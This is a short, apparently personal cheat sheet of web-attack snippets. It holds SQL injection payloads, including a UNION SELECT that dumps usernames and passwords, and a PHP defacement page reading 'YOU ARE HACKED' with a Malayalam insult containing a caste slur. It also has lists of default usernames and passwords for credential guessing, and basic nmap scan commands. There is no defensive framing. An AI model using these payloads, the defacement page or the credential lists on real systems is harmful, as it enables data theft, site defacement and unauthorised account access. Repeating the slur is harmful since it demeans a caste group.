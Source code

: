 list of users - 1' OR '1'='1
-----------------------------------------------------------
' UNION SELECT user, password FROM users#
--------------------------------------------------

Hello.php

 <!DOCTYPE html>
 <html>
 <body>
 <h1>YOU ARE HACKED</h1>
 <?php
 echo "pandi karimpara pulayadi mone";
 ?>
 </body>
 </html>
------------------------------------------------------
username

admin
manager
root
cisco
apc
pass
security
user
system
sys
wampp
newuser
xampp-dav-unsecure
vagrant

----------------------------------------------
password-

admin
password
manager
letmein
cisco
default
root
apc
pass
security
user
system
sys
none
xampp
wampp
ppmax2011
turnkey
vagrant
--------------------------------------------------------
nmap commands

1- tcp == nmap -sT <ip>
2- udp == nmap -sU <ip>
3- version == nmap -sV <ip>
4- Os fingerprint == nmap -O <ip>
